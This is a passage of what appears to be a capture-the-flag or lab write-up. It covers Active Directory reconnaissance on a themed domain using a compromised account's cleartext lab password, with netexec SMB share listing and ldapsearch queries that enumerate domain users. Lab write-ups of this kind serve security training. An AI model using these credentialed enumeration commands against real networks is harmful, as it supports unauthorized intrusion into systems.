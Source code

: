
## Service Access with r.widdleton

With valid domain credentials for `r.widdleton`, the next stage was to enumerate what services this account could access.

### 1. SMB Share Enumeration
#### Service Access – SMB Share Enumeration

With valid credentials for `r.widdleton`, I enumerated available SMB shares:

```bash
netexec smb 10.0.16.170 -u r.widdleton -p 'lilronron' --shares

Result (abbreviated):
Share        Permissions   Remark
-----        -----------   ------------------------------
ADMIN$                     Remote Admin
C$                        Default share
File-Share                Central Repository of Building Magic's files
IPC$         READ          Remote IPC
NETLOGON                  Logon server share
SYSVOL                    Logon server share
```


#### Share Content Enumeration
Attempts to access and list the contents of these shares using `smbclient` were unsuccessful.  
`r.widdleton` did not have sufficient permissions to read or list files in `File-Share`, `NETLOGON`, or `SYSVOL`.

#### Observations
- While the shares are present, this account has **no useful access** to their contents.  
- SMB is therefore not immediately exploitable with the current user.  
- Enumeration must pivot to **LDAP** or **BloodHound** using the same credentials.

### 2. LDAP Domain Enumeration
With valid credentials for `r.widdleton`, an LDAP bind was established using the UPN format:

```bash 
ldapsearch -x -H ldap://10.0.16.170 -D "r.widdleton@BUILDINGMAGIC.LOCAL" -w 'lilronron' -b "DC=BUILDINGMAGIC,DC=LOCAL"
```

I queried LDAP to enumerate domain objects. 

#### Users 
```bash
ldapsearch -x -H ldap://10.0.16.170 -D "r.widdleton@BUILDINGMAGIC.LOCAL" -w 'lilronron' -b "DC=BUILDINGMAGIC,DC=LOCAL" "(objectClass=user)" sAMAccountName
```
```bash
Administrator
Guest
krbtgt
h.potch
r.widdleton
r.haggard
h.grangon
a.flatch
```
